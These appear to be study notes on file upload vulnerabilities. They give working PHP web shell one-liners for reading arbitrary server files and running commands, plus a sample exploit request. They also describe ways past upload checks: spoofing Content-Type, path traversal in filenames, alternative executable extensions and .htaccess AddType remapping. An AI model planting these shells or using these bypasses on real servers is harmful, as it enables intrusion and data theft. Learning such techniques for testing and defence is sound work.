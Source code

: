 # File upload vulnerabilities  
## Web shell
The worst scenario is when server accepts php files and executes them.
In such case we can create shel or read arbitrary files:    
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```
Execute command:
```
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1
```

## Flawed file type validation
Sometimes servers are checking not real filetype of uploaded file, but only Content-Type header in the request. So wee can upload arbitrary file and hide it behind Content-Type: image/jpeg.  

## Preventing file execution in user-accessible directories
Sometimes directories where we are uploading scripts have some restrictions and we won't be able to execute our script after uplaoding it.  
But we can try to upload it to another directory (by changing filename in multipart/form-data for example)  
We can uplaod script to ../ directory (or ..%2F)  

## Blacklisting file extensions  
If server blacklists .php files, we can try to use less common files that are able t oexecute code (.php5, .shtml etc)  
Also sometimes servers sue config files which we potentially would be able to modify. If we are able to uplaod custom config files such as:
```
/etc/apache2/apache2.conf
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php

web.config
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```
We would be able to disable file restrictions and upload and execute our shells.  
We can modify .htaccess file to map some extensions as php files:
```
AddType application/x-httpd-php .l33t
```